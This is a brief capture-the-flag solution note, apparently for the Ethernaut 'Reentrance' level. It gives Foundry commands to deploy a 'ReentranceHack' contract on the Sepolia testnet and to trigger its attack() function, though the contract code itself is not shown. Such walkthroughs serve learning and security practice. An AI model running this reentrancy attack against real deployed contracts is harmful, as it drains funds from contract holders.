 # Reentrance Solution

1) Deploy `ReentranceHack`:

```
forge create ReentranceHack --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey --constructor-args `ìnstanceAddress`
```

2) Call `attack()`:

```
cast send `reentranceHackAddress` "attack()" --value 10000000000000000wei --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```
